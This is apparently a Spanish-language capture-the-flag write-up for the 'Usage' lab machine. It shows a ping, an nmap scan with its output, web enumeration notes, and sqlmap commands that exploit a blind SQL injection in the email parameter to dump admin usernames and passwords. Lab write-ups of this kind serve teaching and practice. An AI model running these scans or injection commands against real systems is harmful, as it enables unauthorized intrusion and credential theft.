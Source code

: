 #Easy #fuzzing #fuzzing #nmap #Linux 
### Ping
```python
ping -c 1 10.10.11.18
PING 10.10.11.18 (10.10.11.18) 56(84) bytes of data.
64 bytes from 10.10.11.18: icmp_seq=1 ttl=63 time=70.9 ms

--- 10.10.11.18 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 70.927/70.927/70.927/0.000 ms
```

### TTL 63=Linux

### nmap
```python
sudo nmap -p- --open -sC -sV --min-rate 3000 -Pn 10.10.11.18 -oN Scan
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-13 19:43 EDT
Nmap scan report for 10.10.11.18
Host is up (0.069s latency).
Not shown: 65527 closed tcp ports (reset), 6 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a0:f8:fd:d3:04:b8:07:a0:63:dd:37:df:d7:ee:ca:78 (ECDSA)
|_  256 bd:22:f5:28:77:27:fb:65:ba:f6:fd:2f:10:c7:82:8f (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://usage.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.51 seconds
```


### Enumeración del puerto 80 (http)

![[Pasted image 20240415164823.png]]

podemos registrarnos en la pagina web pero no tenemos mucha información
![[Pasted image 20240415165024.png]]

si intentamos cambiar la contraseña podemos notar que nos da como resultado una notificación donde podemos ver nuestro correo
![[Pasted image 20240415165125.png]]

### sqlmap
después de hacer un montón de pruebas hemos descubierto que el parámetro mail es vulnerable a sqli blind por lo que vamos a comprobarla con 
```python
sqlmap -r request.txt --level 5 --risk 3 -p email --batch -D usage_blog -T admin_users -C username,password --dump
```

![[Pasted image 20240415193303.png]]

![[Pasted image 20240415201751.png]]
###### con este ataque podemos determinar que es una blind sqli por lo cual el ataque puede tardar bastante. 

### Blind SQLI

```python
sqlmap -r request.txt --level 5 --risk 3 -p email --batch -D usage_blog -T admin_users -C username,password --dump --threads 10
```
con este comando logramos ver que el párametro `email` es vulnerable a `SQLI-based blind` 
![[Pasted image 20240418104412.png]]

